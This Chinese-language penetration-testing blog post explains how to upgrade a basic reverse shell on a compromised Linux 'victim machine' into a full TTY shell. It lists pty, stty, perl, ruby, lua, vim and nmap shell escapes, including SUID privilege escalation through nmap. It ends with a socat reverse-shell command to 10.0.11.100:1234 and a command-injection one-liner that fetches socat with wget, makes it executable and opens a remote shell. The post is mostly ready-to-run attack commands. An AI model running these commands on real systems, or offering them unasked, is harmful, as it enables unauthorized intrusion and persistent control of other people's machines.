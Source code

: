 # Shell Spawning


&lt;!--more--&gt;

# Shell-Spawning（反弹shell到TTYShell）

当我们在 linux 机器上获得了一个 shell，这个 shell 可能没有 TTY（终端连接）功能，导致无法执行一些命令，例如切换用户的“su”命令或“nano”文件创建和修改工具。

同样，渗透测试中也有很多重要功能无法在没有TTY功能的shell 上运行。为了继续进行渗透测试，你将需要生成 TTY shell。

通常，在通过 nc 捕获 shell 之后，会在一个功能非常有限的 shell 中。例如没有命令历史记录（并使用向上“”和“向下”箭头循环浏览它们）和文件名称、命令补全等。在缺少这些功能的 shell 中查询或操作会比较麻烦。

**注意**：要检查 shell 是否是 TTY shell，请使用 `tty` 命令。



以下为非TTY shell中生成TTY shell的实用命令。

## 1、Basic commands

### 基于Python:

```bash
python -c &#39;import pty; pty.spawn(&#34;/bin/sh&#34;)&#39;
python3 -c &#39;import pty; pty.spawn(&#34;/bin/sh&#34;)&#39;
```



1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 winch 命令检查：

```bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

2. 在靶机上输入以下命令（使用机器上可用的 python 版本！）

```rust
python3 -c &#39;import pty;pty.spawn(&#34;/bin/bash&#34;)&#39;;
```

3. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```bash
export SHELL=bash
export TERM=&#34;xterm-256color&#34; #允许 clear，并且有颜色
export TERM=&#34;screen-256color&#34; # TERM任选其一
```

4. 键入 ctrl-z 以将 shell 发送到后台。

5. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```bash
stty raw -echo;fg
回车一次后
输入 reset 再回车
```

将再次进入 shell 中。

到此 TTY shell 升级完成。

### 其他命令：

```bash
echo os.system(&#39;/bin/bash&#39;)
/bin/sh -i

#python3
python3 -c &#39;import pty; pty.spawn(&#34;/bin/sh&#34;)&#39;

#perl
exec &#34;/bin/sh&#34;;
perl -e &#39;exec &#34;/bin/sh&#34;;&#39;

#ruby
exec &#34;/bin/sh&#34;
ruby -e &#39;exec &#34;/bin/sh&#34;&#39;

#lua
lua -e &#34;os.execute(&#39;/bin/sh&#39;)&#34;
```



## 2、nmap

nmap版本 **&lt;=5.21**.

```
nmap --interactive
!sh
```

这可以实现一个TTY交互shell，如果nmap还具备SUID权限，那么还可以实现权限提升的效果。



## 3、vi/vim

vi/vim 是一个可以在非TTY shell中运行的文本编辑器。

```
:!bash
```

或

```
:set shell=/bin/bash
:shell
```

## 4、STTY

“stty”命令允许您更改终端与系统的连接特性。 例如，使用 -a 选项获取当前配置：

```
stty -a
```

使用“stty”生成shell，步骤如下：

```shell
In victim machine reverse shell
$ python -c &#39;import pty; pty.spawn(&#34;/bin/bash&#34;)&#39;
Ctrl-Z         

In Attacker console
# echo $TERM
# stty -a
# stty raw -echo
# fg
[enter]
[enter]              

In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows &lt;num&gt; columns &lt;cols&gt;
```



## 5、IRB

```shell
(From within IRB) - exec &#34;/bin/sh&#34;
```



## 5、rlwrap

可以通过使用 rlwrap 命令包装 nc 侦听器来减轻对 shell 的一些限制。默认情况下不会安装它，需要使用 `sudo apt rlwrap` 或 `apt-get install rlwrap` 安装。

```shell
$ rlwrap nc -lvnp $port
```

## 6、socat

另一种方法是将 socat 二进制文件上传到靶机并获得一个完全交互式的 shell。从 https://github.com/andrew-d/static-binaries 下载适当的二进制文件。Socat 需要在两台机器上才能工作。

```bash
#在本地监听：:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#靶机:
socat exec:&#39;bash -li&#39;,pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果在命令注入的地方注入反弹 shell，获得即时完全交互式的反向 shell：

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod &#43;x /dev/shm/socat; /dev/shm/socat exec:&#39;bash -li&#39;,pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果靶机访问不了互联网，就先把 socat 文件下载下来，开启 http 服务，然后将上面的路径指向你的本地地址。



## 参考文章

- https://www.cnblogs.com/sainet/p/15783539.html
- https://rcenetsec.com/shell-spawning/


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/20230425-shellspawn/  

